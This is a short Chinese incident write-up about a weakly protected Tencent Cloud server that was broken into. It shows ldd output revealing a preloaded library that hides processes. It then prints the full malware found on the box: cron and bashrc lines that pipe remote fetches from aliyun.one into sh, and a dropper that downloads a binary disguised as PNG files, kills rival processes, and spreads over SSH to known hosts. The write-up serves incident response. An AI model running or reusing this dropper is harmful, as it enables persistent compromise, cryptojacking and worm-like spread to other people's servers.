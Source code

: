 腾讯云服务器被黑事件
====================

刚买的腾讯云服务器，因为临时测试下性能，所以只是设置了一个简单的密码，结果发现
被爆破。

登录上服务器，发现 CPU 负载很高，但用 top 命令却无法找到是哪个进程在占用 CPU。
参考了 `这篇文章 <https://mp.weixin.qq.com/s/1AF5cgo_hJ096LmX7ZHitA>`_ ，使用
ldd 查看 top 和 ps 的动态链接库，发现 ``/usr/local/lib/libevent_core-0.12.so``
比较可疑 : ::

    # ldd  `which top`
    linux-vdso.so.1 =>  (0x00007ffe21bc7000)
    /usr/local/lib/libevent_core-0.12.so (0x00007ff594420000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007ff5941f9000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007ff593fc8000)
    libncurses.so.5 => /lib64/libncurses.so.5 (0x00007ff593da1000)
    libtinfo.so.5 => /lib64/libtinfo.so.5 (0x00007ff593b77000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007ff593973000)
    libc.so.6 => /lib64/libc.so.6 (0x00007ff5935a5000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007ff5933a0000)
    libm.so.6 => /lib64/libm.so.6 (0x00007ff59309e000)
    librt.so.1 => /lib64/librt.so.1 (0x00007ff592e96000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007ff592c6f000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007ff592a49000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007ff592834000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007ff5925b3000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007ff5923ae000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007ff592195000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007ff591f44000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007ff591d2e000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007ff591b12000)
    /lib64/ld-linux-x86-64.so.2 (0x00007ff594626000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007ff59190d000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007ff5916ab000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007ff591493000)
    libz.so.1 => /lib64/libz.so.1 (0x00007ff59127d000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007ff59106d000)

    
    # ldd `which ps`
    linux-vdso.so.1 =>  (0x00007ffe8214a000)
    /usr/local/lib/libevent_core-0.12.so (0x00007f49ddc38000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007f49dda11000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007f49dd7e0000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007f49dd5dc000)
    libc.so.6 => /lib64/libc.so.6 (0x00007f49dd20e000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007f49dd009000)
    libm.so.6 => /lib64/libm.so.6 (0x00007f49dcd07000)
    librt.so.1 => /lib64/librt.so.1 (0x00007f49dcaff000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007f49dc8d8000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007f49dc6b2000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007f49dc49d000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007f49dc21c000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007f49dc017000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007f49dbdfe000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007f49dbbad000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007f49db997000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007f49db77b000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f49dde3e000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007f49db576000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007f49db314000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007f49db0fc000)
    libz.so.1 => /lib64/libz.so.1 (0x00007f49daee6000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007f49dacd6000)


    # ldd `which vmstat`
    linux-vdso.so.1 =>  (0x00007ffd99ce3000)
    /usr/local/lib/libevent_core-0.12.so (0x00007fdf0f4cb000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007fdf0f2a4000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007fdf0f073000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007fdf0ee6f000)
    libc.so.6 => /lib64/libc.so.6 (0x00007fdf0eaa1000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007fdf0e89c000)
    libm.so.6 => /lib64/libm.so.6 (0x00007fdf0e59a000)
    librt.so.1 => /lib64/librt.so.1 (0x00007fdf0e392000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007fdf0e16b000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007fdf0df45000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007fdf0dd30000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007fdf0daaf000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007fdf0d8aa000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007fdf0d691000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007fdf0d440000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007fdf0d22a000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007fdf0d00e000)
    /lib64/ld-linux-x86-64.so.2 (0x00007fdf0f6d1000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007fdf0ce09000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007fdf0cba7000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007fdf0c98f000)
    libz.so.1 => /lib64/libz.so.1 (0x00007fdf0c779000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007fdf0c569000)

之后又找到了 `另一篇文章 <https://www.anquanke.com/post/id/171523>`_ ，发现它描
述的入侵案例和我遇到的一模一样，相关文件如下:

在 /etc/bashrc 中: ::

    (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;exec(urllib.urlopen("http://aliyun.one/pygo").read())')|sh >/dev/null 2>&1 &

在 /var/spool/cron/root 中: ::

    */15 * * * * (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen("http://aliyun.one").read())')|sh 


脚本: ::

    #<script>window.location.href="http://aliyun.com";</script><!--
    export PATH=$PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin
    mv /bin/wge /bin/wget
    mv /bin/cur /bin/curl
    mv /usr/bin/wge /usr/bin/wget
    mv /usr/bin/cur /usr/bin/curl
    mkdir -p /tmp
    chmod 1777 /tmp
    echo "*/10 * * * * (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh"|crontab -
    cat > /etc/crontab <<EOF
    SHELL=/bin/bash
    PATH=/sbin:/bin:/usr/sbin:/usr/bin

    */10 * * * * root (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen("http://aliyun.one").read())'||/usr/local/sbin/76572670a3)|sh
    EOF
    swapoff -a
    find /etc/cron*|xargs chattr -i
    find /var/spool/cron*|xargs chattr -i
    grep -RE "(wget|curl)" /etc/cron*|grep -v "aliyun.one"|cut -f 1 -d :|xargs rm -rf
    grep -RE "(wget|curl)" /var/spool/cron*|grep -v "aliyun.one"|cut -f 1 -d :|xargs rm -rf
    netstat -anp|grep :::6345|awk '{print $7}'|sed -e "s/\/.*//g"|xargs kill -9
    netstat -anp|grep 119.9.76.107:443|awk '{print $7}'|sed -e "s/\/.*//g"|xargs kill -9
    cd /tmp
    touch /usr/local/bin/writeablex && cd /usr/local/bin/
    touch /usr/libexec/writeablex && cd /usr/libexec/
    touch /usr/bin/writeablex && cd /usr/bin/
    rm -rf /usr/local/bin/writeablex /usr/libexec/writeablex /usr/bin/writeablex

    export PATH=$PATH:$(pwd)
    a64="img.sobot.com/chatres/89/msg/20191225/1/ec0991da601e45c4b0bb6178da5f0cc4.png"
    a32="img.sobot.com/chatres/89/msg/20191225/1/50659157a100466a88fed550423a38ee.png"
    b64="cdn.xiaoduoai.com/cvd/dist/fileUpload/1577269944760/2.637890910155951.png"
    b32="cdn.xiaoduoai.com/cvd/dist/fileUpload/1577269966297/8.872362655092918.png"
    c64="https://user-images.githubusercontent.com/56861392/71443284-08acf200-2745-11ea-8ef3-509d9072d970.png"
    c32="https://user-images.githubusercontent.com/56861392/71443285-08acf200-2745-11ea-96c3-0c2be9135085.png"
    if [ ! -f "76572670a3" ]; then
        ARCH=$(getconf LONG_BIT)
        if [ ${ARCH}x = "64x" ]; then
            (curl -fsSL -m180 $a64 -o 76572670a3||wget -T180 -q $a64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$a64'", "76572670a3")'||curl -fsSL -m180 $b64 -o 76572670a3||wget -T180 -q $b64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$b64'", "76572670a3")'||curl -fsSL -m180 $c64 -o 76572670a3||wget -T180 -q $c64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("'$c64'", "76572670a3")')
        else
            (curl -fsSL -m180 $a32 -o 76572670a3||wget -T180 -q $a32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$a32'", "76572670a3")'||curl -fsSL -m180 $b32 -o 76572670a3||wget -T180 -q $b32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$b32'", "76572670a3")'||curl -fsSL -m180 $c32 -o 76572670a3||wget -T180 -q $c32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("'$c32'", "76572670a3")')
        fi
    fi
    chmod +x 76572670a3
    $(pwd)/76572670a3 || ./76572670a3 || /usr/bin/76572670a3 || /usr/libexec/76572670a3 || /usr/local/bin/76572670a3 || 76572670a3 || /tmp/76572670a3 || /usr/local/sbin/76572670a3
    if [ -f /root/.ssh/known_hosts ]; then
      for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" /root/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL aliyun.one||wget -q -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh >/dev/null 2>&1 &";done
    fi

    for file in /home/*
    do
        if test -d $file; then
            if [ -f $file/.ssh/known_hosts ]; then
                for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" $file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL aliyun.one||wget -q -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh >/dev/null 2>&1 &";done
            fi
        fi
    done
    #-->

Thanks for reading :)

References
----------

https://www.anquanke.com/post/id/171523

https://zhuanlan.zhihu.com/p/65609044
